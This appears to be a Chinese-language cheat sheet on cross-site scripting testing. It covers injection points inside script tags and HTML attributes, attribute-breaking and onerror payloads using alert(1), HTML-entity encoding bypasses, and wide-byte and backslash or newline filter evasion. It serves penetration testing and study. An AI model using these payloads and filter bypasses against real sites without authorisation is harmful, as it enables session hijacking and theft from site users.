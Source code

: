 # 输入、输出 位置

## 输出在```<script></script>```之间

一般来说不会有这种破绽出现，需要判断各种过滤，测试用例：
```
eval('alert(1)')

```

## 输出在html标签中

指的是如下这种情况，一般在搜索时经常可以遇到：

```
http://xxxx.com/search.php?word=乌云欢迎您

<input type="text" value="乌云欢迎您" />
```

如果没过滤双引号可以加标签：
```
http://xxxx.com/search.php?word=乌云欢迎您" onclick="alert(1)
<input type="text" value="乌云欢迎您" onclick="alert(1)" />
```

如果没有过滤 # & 这2个符号可以通过html转义序列（escape sequence）方式绕过：

相关网址: https://dev.w3.org/html5/html-author/charref

```
<img src="1" onerror="alert(1)"> 
与
<img src="1" onerror="alert&#x28;1&#x29;"> 
相等
```

## dom XSS

# 过滤绕过

## 宽字节绕过

观察输出的字节设置：
```
<meta http-equiv="Content-Type" content="text/html; charset=gb18030" />

```
比如这里是gb系列的编码 可以通过2个字符编码绕过某些限制

## 反斜杠 换行符

反斜杠可以用来把一些符号注释掉，换行符可以跳出如注释之类的过滤
